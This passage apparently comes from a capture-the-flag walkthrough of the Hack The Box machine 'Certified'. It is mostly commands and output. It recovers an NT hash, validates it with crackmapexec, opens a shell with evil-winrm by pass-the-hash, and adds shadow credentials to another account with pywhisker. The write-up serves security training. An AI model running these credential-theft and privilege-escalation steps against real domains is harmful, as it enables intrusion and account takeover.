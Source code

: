 $ KRB5CCNAME=management_svc.ccache ./getnthash.py CERTIFIED.HTB/management_svc -key 37b5b0b8873bb21cdf40daad3dcf408af0be706f772bf52dda96dbecfa00f041
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
a<...>4

$ crackmapexec smb 10.10.11.41 -u "management_svc" -H a<...>4
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.41     445    DC01             [+] certified.htb\management_svc:a<...>4
{{< /highlight >}}

We can then use evil-winrm to gain a shell on the machine using *management_svc*.
Even if the port was not shown as open in the initial nmap scan, it's open.\
Finally, we can retrieve the hash for the user part.
{{< highlight go "hl_lines=1" >}}
$ evil-winrm -i 10.10.11.41 -u management_svc -H a<...>4
<...>
*Evil-WinRM* PS C:\Users\management_svc\Desktop> dir
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        3/13/2025   2:54 PM             34 user.txt
{{< /highlight >}}

## Root
### management_svc -> ca_operator

Now that *management_svc* is compromise, we can see in BloodHound that *ca_operator* can also be compromise using the same technique, abusing  ```GenericAll``` permission that *management_svc* has over *ca_operator*.
![](BH_ca_operator.png)

{{< highlight go "hl_lines=1 17 29" >}}
$ ./pywhisker.py -d "certified.htb" -u "management_svc" -H "a<...>4" --target "ca_operator" --action "add"
[*] Searching for the target account
[*] Target user found: CN=operator ca,CN=Users,DC=certified,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 174934b2-1249-c39a-bc89-5b4b5c01b784
[*] Updating the msDS-KeyCredentialLink attribute of ca_operator
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Converting PEM -> PFX with cryptography: zlax30FB.pfx
[+] PFX exportiert nach: zlax30FB.pfx
[i] Passwort für PFX: CiktaI0YO7y9IV9T9mnM
[+] Saved PFX (#PKCS12) certificate & key at path: zlax30FB.pfx
[*] Must be used with password: CiktaI0YO7y9IV9T9mnM
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
